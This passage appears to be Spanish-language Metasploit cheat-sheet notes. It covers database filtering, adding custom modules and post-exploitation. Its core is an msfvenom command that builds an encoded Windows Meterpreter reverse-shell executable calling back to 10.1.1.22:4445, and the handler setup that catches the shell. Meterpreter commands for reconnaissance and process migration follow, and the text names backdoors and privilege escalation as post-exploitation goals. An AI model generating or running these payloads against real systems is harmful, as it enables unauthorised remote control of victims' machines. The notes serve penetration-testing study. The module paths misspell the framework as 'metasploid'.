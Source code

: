**filtrado**  

```bash
hosts -c column,columna -S filtrado
services -c columna,columna  10.0.0.5
services -p 445
```



##### Añadir módulos

```bash
mkdir /usr/share/metasploid-framework/modules/exploits/test
# o si lo quieres solo para un usuario
mkdir -p ~/.msf4/modules/exploits/test
# añdir el modulo dentro de test
cp test-module.rb  /usr/share/metasploid-framework/modules/exploits/test/

# recargar modulos en metasploit
msf> reload_all
msf> use exploits/test/test-module
```



##### Generar archivo con payload

```bash
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp lhost=10.1.1.22 lport=4445 -e x86/shikata_ga_nai  -i 3 -f exe -o test.exe
```

```bash
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
show options
set lhost 10.1.1.22
set lport 4445
exploit
```





### Post-explotación

En la post-explotación ya estamos dentro del sistema vulnerable y este paso las tareas son: elevar privilegios, analizar comportamiento del usuario, análisis tráfico red, abrir puertas traseras, acceder a otras redes.

#### Extraer información del sistema

siempre desde la terminal de `metasploit>`

```bash
help
use -l
sysinfo
getuid # usuario corriendo
getpid # pid corriendo
ps  	# procesos
migrate 368 # cambiar a proceso 368
run checkvm # verificar si es una maquina virtual
run get_env	# ver variables de entorno
run get_application_list  # ver aplicaciones instaladas
```
